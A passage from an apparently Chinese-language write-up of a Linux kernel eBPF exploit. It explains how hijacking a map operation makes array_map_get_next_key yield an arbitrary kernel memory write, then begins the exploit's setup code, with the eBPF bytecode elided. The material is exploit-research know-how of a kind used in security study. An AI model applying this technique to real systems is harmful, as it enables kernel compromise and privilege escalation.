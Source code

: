 然后在执行 `map_get_next_key` 函数时，会发生内存的写入：

```c 
static int array_map_get_next_key(struct bpf_map *map, void *key, void *next_key)
{
    struct bpf_array *array = container_of(map, struct bpf_array, map);
    u32 index = key ? *(u32 *)key : U32_MAX;
    u32 *next = (u32 *)next_key;
    if (index >= array->map.max_entries) {\
        *next = 0;
        return 0;
    }
    if (index == array->map.max_entries - 1)
        return -ENOENT;
    *next = index + 1; // *(u32 *)next_key = *(u32 *)key + 1
    return 0;
}
```

修改 `max_entries` 和 `spin_lock_off` 是为了能正常执行到函数最后，在最后根据分析，会进行内存写，即取出第一个参数的 u32 值加上 1 再存到第二个参数的位置处。我们执行到此的调用链为：

```c 
bpf_update_elem(mapfd, &key, &value, flags)
-> map_update_elem(mapfd, &key, &value, flags)
-> map_push_elem(struct bpf_map *map, void *value, u64 flags)
    （实际上劫持后是 map_get_next_key）
-> array_map_get_next_key(struct bpf_map *map, void *key, void *next_key) 
```

所以对应起来，我们传入的 value 就是最后的 key，flags 就是最后的 next_key，所以我们构造 value 和 flags 就可以实现 `*(u32*)flags = *(u32*)value + 1` 的写入，而这些都是我们可控的用户输入，所以就可以实现任意地址写。

### exp 程序分析

首先需要创建一些 map 并加载 eBPF 程序：

```c 
static void prep(void) {
    ctrl_mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), 0x100, 1, 0);
    exp_mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), 0x2000, 1, 0);
    progfd = load_my_prog();
    ...
    if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets)){
        __exit(strerror(errno));
    }
    if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0){
        __exit(strerror(errno));
    }
}

static int load_my_prog() {
    struct bpf_insn my_prog[] = {
        ... // eBPF 程序字节码
    };
    return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, my_prog, sizeof(my_prog), "GPL", 0);
}
```
